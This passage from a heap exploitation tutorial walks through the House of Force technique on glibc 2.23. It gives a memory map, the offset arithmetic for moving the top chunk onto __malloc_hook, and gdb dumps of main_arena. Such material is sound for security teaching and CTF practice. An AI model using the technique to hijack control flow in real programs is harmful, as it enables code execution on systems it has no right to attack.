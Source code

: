 ```

0x00007ffff7dd7000 0x00007ffff7dfd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/ld-2.23.so

0x00007ffff7fdb000 0x00007ffff7fde000 0x0000000000000000 rw- 

0x00007ffff7ff6000 0x00007ffff7ff8000 0x0000000000000000 rw- 

0x00007ffff7ff8000 0x00007ffff7ffa000 0x0000000000000000 r-- [vvar]

0x00007ffff7ffa000 0x00007ffff7ffc000 0x0000000000000000 r-x [vdso]

0x00007ffff7ffc000 0x00007ffff7ffd000 0x0000000000025000 r-- /lib/x86_64-linux-gnu/ld-2.23.so

0x00007ffff7ffd000 0x00007ffff7ffe000 0x0000000000026000 rw- /lib/x86_64-linux-gnu/ld-2.23.so

0x00007ffff7ffe000 0x00007ffff7fff000 0x0000000000000000 rw- 

0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]

0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]

```

You can see that the base address of the heap is 0x602000, and the base address of libc is 0x7ffff7a0d000, so we need to expand the value of the top chunk pointer by HOF to implement the write to malloc_hook.
First, the debug knows that the address of __malloc_hook is at 0x7ffff7dd1b10 and takes the calculation.


0x7ffff7dd1b00-0x602020-0x10=140737345551056

After this malloc, we can observe that the address of the top chunk is raised to 0x00007ffff7dd1b00


```

0x7ffff7dd1b20 <main_arena>:	0x0000000100000000	0x0000000000000000

0x7ffff7dd1b30 <main_arena+16>:	0x0000000000000000	0x0000000000000000

0x7ffff7dd1b40 <main_arena+32>:	0x0000000000000000	0x0000000000000000

0x7ffff7dd1b50 <main_arena+48>:	0x0000000000000000	0x0000000000000000

0x7ffff7dd1b60 <main_arena+64>:	0x0000000000000000	0x0000000000000000

0x7ffff7dd1b70 <main_arena+80>:	0x0000000000000000	0x00007ffff7dd1b00 <=== top chunk

0x7ffff7dd1b80 <main_arena+96>:	0x0000000000000000	0x00007ffff7dd1b78

```

After that, we can control the __malloc_hook value at 0x7ffff7dd1b10 as long as we allocate it again.
